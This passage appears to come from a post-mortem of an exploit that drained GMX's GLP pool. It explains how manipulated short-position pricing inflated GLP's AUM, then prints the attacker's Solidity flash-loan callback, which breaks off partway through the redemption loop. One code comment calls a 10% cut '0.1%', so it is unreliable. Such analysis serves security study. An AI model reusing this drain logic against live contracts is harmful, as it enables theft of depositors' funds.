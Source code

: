 Within the `uniswapV3FlashCallback` function, the attacker executed the core draining logic. The attacker minted GLP at its then-fair market price. Immediately after, a massive short position was opened. Due to the severely manipulated average short price, the system's calculations reported an astronomical "short loss" for this newly opened position. This fabricated loss catastrophically inflated the calculated AUM for GLP.

This inflated AUM, directly influenced by the short losses, caused the GLP price to increase. The attacker then proceeded to redeem the previously minted GLP at this drastically inflated price. It iterated over multiple tokens held in the vault calculating the available amounts and redeeming GLP for each, effectively draining the assets from the pool.


```solidity
function uniswapV3FlashCallback(
    uint256 fee0,
    uint256 fee1,
    bytes calldata data
) external {
    (uint256 value1, uint256 value2) = abi.decode(data, (uint256, uint256));

    USDC.approve(address(GLP_MANAGER), value2);
    REWARD_ROUTER_V2.mintAndStakeGlp(address(USDC), value2, 0, 0);
    USDC.transfer(address(VAULT), value1);

    uint256 maxPrice = VAULT.getMaxPrice(address(USDC));
    uint256 sizeDelta = (maxPrice * value1 * 10) / (10 ** 6);

    VAULT.increasePosition(
        address(this),
        address(USDC),
        address(WBTC),
        sizeDelta,
        false
    );

    for (uint256 i = 0; i < tokens.length; i++) {
        IERC20 token = IERC20(tokens[i]);
        uint256 tokenDecimal = tokenDecimals[i];
        uint256 aum = GLP_MANAGER.getAum(false);
        uint256 glpTotalSupply = GLP.totalSupply();
        uint256 reservedAmount = VAULT.reservedAmounts(address(token));
        uint256 poolAmount = VAULT.poolAmounts(address(token));
        uint256 tokenMinPrice = VAULT.getMinPrice(address(token));

        // Calculate the value of the 'available' token amount in a normalized format (e.g., USD equivalent)
        // (poolAmount - reservedAmount) gives the truly available liquidity for the token.
        // Multiplying by tokenMinPrice and dividing by 10^tokenDecimal converts this into a standard value unit,
        // effectively removing the token's specific decimal scaling.
        uint256 availableTokenValueNormalized = (tokenMinPrice *
            (poolAmount - reservedAmount)) / (10 ** tokenDecimal);

        // Apply a small cut (0.1%) to the calculated value
        uint256 adjustedAvailableTokenValue = (availableTokenValueNormalized *
                900) / 1000;

        // Calculate the amount of GLP tokens that corresponds to the adjusted available token value.
        // This uses the standard GMX formula: (AssetValue / AUM) * GLP_TotalSupply = Redeemable GLP Amount
        uint256 glpAmountToRedeem = (adjustedAvailableTokenValue *
            glpTotalSupply) / aum;


```